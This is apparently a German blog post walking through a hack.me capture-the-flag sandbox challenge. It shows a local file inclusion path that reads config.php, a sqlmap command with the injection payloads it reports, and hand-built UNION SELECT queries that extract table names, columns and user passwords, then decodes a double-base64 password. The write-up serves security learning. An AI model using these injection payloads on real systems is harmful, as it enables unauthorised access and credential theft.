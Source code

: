 ```yaml
---
title: Hack.me - Challenge 0x02
layout: post
permalink: hack-me-challenge-0x02-2
published: true
---
```

Ich probiere mich in letzter Zeit immer mal wieder an ein paar Challenges auf [hack.me](https://hack.me).

Wer die Seite noch nicht kennt, sollte sie unbedingt ausprobieren. elearnsecurity hat eine Seite ins Leben gerufen, auf der man PHP Code mit Schwachstellen hochladen kann. Jeder Besucher kann sich seine eigene Sandbox starten und darin den Code angreifen.

Aber zurueck zu der eigentlichen Challenge "[Challenge Lab 0x02](https://hack.me/101303/challenge-lab-0x02.html)".

    Hello again.

    We are souvlakiteam!

    In this new challenge you will be able to exercise your skills in an CTF challenge.

    The following challenge is devided in 3 parts. You can move to the next part only if you hack the   previous step.
    The attacks you will need to execute are well-known attacks. Two of them are also on the OWASP 10.

    Are you ready to hack it?

    Go on!

# Spoiler-ALERT!!!!

*Wer die Challenge selber loesen will, sollte hier nicht weiterlesen.*

Man wird mit einer Bierseite begruesst.
![](/blog/img/posts/2016-06-22-012744_986x662_scrot.png)

## Local File Inclusion
Nachdem man ein wenig auf den ersten Seite rumgeklickt hat sollte erstmals die URLs

* /about.php?a=industrialization
* /about.php?a=ingredients

ins Auge gefallen sein. Auch sollte man den neuen Menupunkt "Fresh News" sehen, der hinzugekommen ist.
![](/blog/img/posts/2016-06-22-012954_297x266_scrot.png)

Unter diesem Menupunkt bekommt man den ersten Hinweis:

```
TIP [1/4]: usually the SALT is stored in a file called: config.php
```

Wenn man aber versucht eine einfache [LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion) auszufuehren mit `/about.php?a=config.php` wird man auf die Seite 404.php weitergeleitet. Auch bei `/about.php?a=index.php` ist es die gleiche 404.php.

Also befinden wir uns noch nicht im richtigen Ordner.
Ein kurzer Check mit `/about.php?a=../index.php` bestaetigt das. Aber auch hier kann keine config.php gefunden werden.
Probieren wir das ganze ohne die PHP Endung bekommen wir eine ominoese Fehlermeldung.

![](/blog/img/posts/2016-06-22-15_06_01-More-about-beer.png)

Es handelt sich hierbei also um einen Ordner. Wenn man nun dort also noch die `config.php` in dem Ordner `../config` aufruft, kann man im Quelltext den Salt finden.

![](/blog/img/posts/2016-06-22-15_08_12-http___s43216-101303-idu-sipontum-hack-me_about-php_a---_config_config-php.png)

Damit sind wir im nächsten Level bei einer SQL Injection.

## SQL Injection

Hierbei kann man sich verschiedene Biere genauer anschauen. Jedes Bier wird über die URL `/beer.php?id=<ID>` aufgerufen, wobei die ID eine beliebige Zahl sein kann.
Da ich ja schon sagte, dass es sich hierbei um eine SQLi handelt, bleibt uns nur der Parameter `id` übrig. Das es sich hierbei um eine SQLi handelt findet man im Menüpunkt "Kelly Green", der nach Eingabe eines einfachen Anführungszeichens sichtbar wird.

![](/blog/img/posts/2016-06-22-15_26_46-2---Checkpoint.png)

Nun gibt es hier 2 Methoden dies zu lösen.

### Allzweckwaffe SQLMap
Das ist die Hau-Drauf-Methode. Man startet SQLMap mit folgendem Befehl:

```
$ sqlmap --cookie="PHPSESSID=<value>" "http://<server>.hack.me/beer.php?id=1" -a --dbms=MySQL
```

SQLMap wird an dieser Stelle mehrere Injection Points finden. Hierbei sind unter anderem:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6528=6528 AND 'Xrzt'='Xrzt

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))VEkS) AND 'EYyJ'='EYyJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71716b6b71,0x42794f7544496575495347724c6a4676424d6a50434849585867774f474575575669456c77634d6f,0x716a7a6271),NULL-- -
```
Zudem bewirkt der Parameter `-a`, dass er die komplette Datenbank abspeichert.

### Old fashioned handjob
Wer kein SQLMap zur Verfügung hat, kann auch einfach die gute alte Methode verwenden und selber Hand anlegen.
Durch die Eingabe eines einfachen Anführungszeichen bekommen wir folgende Fehlermeldung, welche uns eine vorhande SQLi bestätigt.

```
Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in C:\inetpub\wwwroot\coliseum\client\sandbox\43216-101303\BODY\inner\beer.php on line 31
```

Durch weiteres rumprobieren kommt man darauf, dass die Eingabe `' union select 1,2,'3` eine gewollte Ausgabe, ohne Fehlermeldung, liefert.
![](/blog/img/posts/2016-06-22-15_22_15-Program-Manager.png)
Wir wissen nun 2 Punkte:

* 2 und 3 sind für Ausgaben gut
* Wir brauchen am Ende einen String mit einem einfachen Anführungszeichen am Anfang und keinem Anführungszeichen am Ende.

Wenn man sich ein wenig mit SQL auskennt, kann man sich aus den Bedingungen folgenden SQL Befehl zusammenbauen, um alle Tabellen Namen auszugeben:

```
' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema
```

Das `group_concat` bewirkt hierbei, dass die Namen zusammengefügt und als ein String ausgegeben werden.

![](/blog/img/posts/2016-06-22-15_25_42-Program-Manager.png)

D.h. die Datenbank hat also 2 Tabellen. Da wir das Passwort von Kelly Green holen wollen, ist die Datenbank `users` interessant.

Wenn wir unseren SQL Exploit ein wenig anpassen, bekommen wir auch alle Columns der Tabelle `users`:

```
' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema != 'mysql' AND table_schema != 'information_schema
```
![](/blog/img/posts/2016-06-22-15_29_38-Program-Manager.png)

Wir wollen das Passwort von Kelly Green aus der Tabelle `users` haben, was wir mit folgendem SQL Exploit erreichen.

```
' UNION SELECT 1,2,group_concat(concat(name,' - ',surname,' - ',password),'<br />') FROM users WHERE name='Kelly' and surname='Green
```

![](/blog/img/posts/2016-06-22-15_31_24-Program-Manager.png)

Alternativ können auch einfach alle Benutzer ausgegeben werden, wenn man die Where-Statements weglässt und ein einfaches `where 1='1` aufgrund des Anführungszeichens hinzufügt.

![](/blog/img/posts/2016-06-22-15_31_56-Our-Beers.png)

Nun haben wir also das Passwort von Kelly Green und können endlich in die letzte Challenge.

## Decipher das Passwort
Wenn man sich das Passwort näher anschaut, fällt einem das `=` am Ende auf, was base64 als Padding verwendet.
Wenn man base64 Decoder auf den String anwendet, kommt tatsächlich ein neuer String raus, der unserem ursprünglichem Salt+Passwort sehr ähnlich sieht: `S09ONTY4dfsa780fsd6b78f6bds6aft876asd658a`
Wir strippen also den Salt von dem String und kommen mit einem Passwort raus `S09ONTY4`.

Nach Eingabe des Passwortes:
![](/blog/img/posts/2016-06-22-15_35_44-3---Final-STEP.png)

Awwww....

Wir haben aber auch den Tip noch nicht beachtet:

```
TIP [1/4]: TIP: you have the dump of database, but we know that in the table users someone writes the algorithm to store the password...	
```

Hierzu muss man wissen, dass man in MySQL Kommentare zu Tabellen speichern kann. Diese kann man einfach über die Information_Schema Datenbank abfragen.

```
' UNION SELECT 1,2,group_concat(table_comment,'<br />') FROM information_schema.tables WHERE table_name='users
```

Dies liefert uns den Algorithmus: `password = base64(base64(password) + salt)`

Wir müssen also `S09ONTY4` nochmal mit base64 Decoden und landen bei `KON568`.

Nach Eingabe dieses Strings, endlich:
![](/blog/img/posts/2016-06-22-15_39_47-3---Final-STEP.png)

*(Wer mit SQLMap einfach die gesamte Datenbank geholt hat, hätte auch einfach nach `base64` grepen können und der Algorithmus wäre klar gewesen)* 

so long.
